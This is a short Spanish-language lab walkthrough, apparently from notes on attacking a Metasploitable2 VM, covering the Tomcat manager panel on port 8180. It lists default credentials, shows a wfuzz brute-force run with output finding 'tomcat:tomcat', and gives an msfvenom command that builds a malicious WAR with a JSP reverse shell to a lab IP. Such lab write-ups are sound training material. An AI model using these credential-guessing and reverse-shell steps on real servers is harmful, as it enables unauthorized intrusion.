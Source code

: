 ----

## Tomcat 8180

Pruebe el panel de administración

```
/manager/html
```

Es posible probar autenticaciones básicas como:

```
tomcat:tomcat
tomcat:s3cret
admin:admin
admin:tomcat
```

Una forma de automatizar estas autenticaciones es utilizando la herramienta `wfuzz`

```
❯ wfuzz -w /opt/metasploit-framework/embedded/framework/data/wordlists/tomcat_mgr_default_pass.txt -c --basic FUZZ:FUZZ http://192.168.0.110:8180/manager/html
[...]
000000001:   401        0 L      44 W       948 Ch      "admin - admin"    
000000003:   401        0 L      44 W       948 Ch      "role1 - role1"    
000000007:   401        0 L      44 W       948 Ch      "vagrant - vagrant"
000000006:   401        0 L      44 W       948 Ch      "s3cret - s3cret"  
000000004:   401        0 L      44 W       948 Ch      "root - root"      
000000002:   401        0 L      44 W       948 Ch      "manager - manager"
000000005:   200        360 L    816 W      13341 Ch    "tomcat - tomcat"  
```

Creao un war malicioso

```
❯ sudo msfvenom -p java/jsp_shell_reverse_tcp lport=4444 lhost=192.168.0.107 -f war > shell.war
```

![tomcat](../assets/imgs/metasploitable2/tomcat.png)
